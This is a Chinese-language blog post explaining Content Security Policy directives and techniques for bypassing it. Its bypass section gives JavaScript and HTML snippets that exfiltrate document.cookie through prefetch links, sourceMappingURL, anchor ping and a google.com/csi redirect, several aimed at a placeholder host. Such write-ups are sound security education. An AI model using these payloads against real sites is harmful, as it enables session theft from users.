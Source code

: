 ```yaml
---
layout:		post
title:		Bypass CSP
data:		2016-11-01
author:		"dogewatch"
header-img:	"img/post-bg-2015.jpg"
tags:
    - web
---
```


> Safe is depending users

# CSP

CSP:Content Security Policy(内容安全策略)，其旨在减少跨站脚本攻击。由开发者定义一些安全性的策略声明，来指定可信的内容(脚本，图片，iframe，style，font等)来源。现代浏览器可以通过http头部的`Content-Security-Policy`来获取csp配置。指令如下表：

|     指令      |              说明              |
| :---------: | :--------------------------: |
| default-src |           定义默认加载策略           |
| connect-src |    定义ajax、websocket等加载策略     |
|  font-src   |          定义font加载策略          |
|  frame-src  |         定义frame加载策略          |
|   img-src   |           定义图片加载策略           |
|  media-src  |     定义audio、video等资源加载策略     |
| object-src  | 定义applet、embed、object等资源加载策略 |
| script-src  |           定义js加载策略           |
|  style-src  |          定义css加载策略           |
|   sandbox   |             沙箱选项             |
| report-uri  |             日志选项             |

一些属性值如下表：

|        属性值         |             示例             |                    说明                    |
| :----------------: | :------------------------: | :--------------------------------------: |
|         *          |         ing-src *          | 允许从任意url加载，除了data:blob:filesystem:schemes |
|       'none'       |     object-src 'none'      |               禁止从任何url加载资源               |
|       'self'       |       img-src 'self'       |                只可以加载同源资源                 |
|       data:        |    img-src 'self' data:    |              可以通过data协议加载资源              |
| domain.example.com | ing-src domain.example.com |               只可以从特定的域加载资源               |
|   *.example.com    |   img-src *.example.com    |         可以从任意example.com的子域处加载资源         |
|  https://cdn.com   |  img-src https://cdn.com   |            只能从给定的域用https加载资源             |
|       https:       |       img-src https:       |             只能从任意域用https加载资源             |
|  'unsafe-inline'   | script-src 'unsafe-inline' | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |
|   'unsafe-eval'    |  script-src 'unsafe-eval'  |        允许一些不安全的代码执行方式，例如js的eval()        |

# CSP 绕过 

虽然csp对不同的资源，不同的加载权限都能够有一个比较明确的划分，但是这并不意味着就能彻底杜绝跨站脚本漏洞，因为在正常环境中，开发者也总会用跨站加载资源或者脚本的需求。试想一下，如果csp头设置成`default-src 'none'`，固然能够杜绝xss，但是这样也没几个网站能够正常使用了吧。

## 0x1 预加载

浏览器为了增强用户体验，让浏览器更有效率，就有一个预加载的功能，大体是利用浏览器空闲时间去加载指定的内容，然后缓存起来。这个技术又细分为DNS-prefetch、subresource、prefetch、preconnect、prerender。

HTML5页面预加载是用link标签的rel属性来指定的。如果csp头有`unsafe-inline`，则用预加载的方式可以向外界发出请求，例如：

```html
<!-- 预加载某个页面 -->
<link rel='prefetch' href='http://xxxx'><!-- firefox -->
<link rel='prerender' href='http://xxxx'><!-- chrome -->
<!-- 预加载某个图片 -->
<link rel='prefetch' href='http://xxxx/x.jpg'>
<!-- DNS 预解析 -->
<link rel="dns-prefetch" href="http://xxxx">
<!-- 特定文件类型预加载 -->
<link rel='preload' href='//xxxxx/xx.js'><!-- chrome -->
```

另外，不是所有的页面都能够被预加载，当资源类型如下时，讲阻止预加载操作：

1. URL中包含下载资源

2. 页面中包含音频、视频

3. POST、PUT和DELET操作的ajax请求

4. HTTP认证

5. HTTPS页面

6. 含恶意软件的页面

7. 弹窗页面

8. 占用资源很多的页面

9. 打开了chrome developer tools开发工具

## 0x2 一些其他特性 

   利用javascript或者某些标签的某种特性可以绕过`unsafe-inline`向外界发出请求。

1. jQuery sourcemap

   ```javascript
   document.write(`<script>
   //@ 	   sourceMappingURL=http://xxxx/`+document.cookie+`<\/script>`);
   ```

2. a标签的ping属性

   ```javascript
   a=document.createElement('a');
   a.href='#';
   a.ping='http://xxxx/?' + document.cookie;
   a.click();
   ```

3. http 204

   ```javascript
   location='//www.google.com/csi?' + escape(document.cookie);
   ```

   ​


